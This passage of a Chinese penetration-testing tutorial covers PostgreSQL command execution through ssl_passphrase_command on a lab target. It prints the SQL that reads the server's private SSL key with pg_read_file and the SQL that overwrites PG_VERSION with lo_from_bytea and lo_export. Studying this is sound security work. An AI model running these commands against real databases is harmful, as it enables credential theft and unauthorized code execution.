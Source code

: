 和上面的利用 UDF 命令执行一样，不过不同点在于上面一个是创建 function 加载，这个方式是通过改配置文件中的 session\_preload\_libraries 进行加载，这里就不复现了

## [利用 ssl\_passphrase\_command 执行命令](#toc_ssl_passphrase_command)

方法来自于 [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli) 这篇文章的场景

**利用条件**  
\- 需要知道 PG\_VERSION 文件的位置 (不是 PG\_VERSION 文件也行，pgsql 限制私钥文件权限必须是 0600 才能够加载，pgsql 目录下的所有 0600 权限的文件都是可以的，但覆盖后没啥影响的就 PG\_VERSION 了)

**描述**

当配置文件中配置了 ssl\_passphrase\_command，那么该配置在需要获取用于解密 SSL 文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的 ssl 配置改为我们要执行的命令，通过 lo\_export 覆盖配置文件，最后通过 pg\_reload\_conf 重载配置文件时将执行命令

**复现**

这里以靶机上已经存在的 2 个密钥文件为例

```bash
/etc/ssl/certs/ssl-cert-snakeoil.pem
/etc/ssl/private/ssl-cert-snakeoil.key
```

通过文件读取获取私钥

```bash
select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');
```

对私钥文件加密

```bash
# 密码为 12345678
openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key

# 输出为 base64 格式
cat private_passphrase.key | base64 -w 0 > base.txt
```

上传 private\_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件，发现 PG\_VERSION 文件符合条件，而且覆盖也没有太大影响

PG\_VERSION 与 config\_file 文件同目录，上传私钥文件覆盖 PG\_VERSION，可绕过权限问题。

```bash
-- 将 private_passphrase.key 覆盖 PG_VERSION 文件
select lo_from_bytea(10004,decode('base64 的内容，这里略','base64'));
select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');
SELECT lo_unlink(10004);
```

在靶机中查看验证是否写入成功
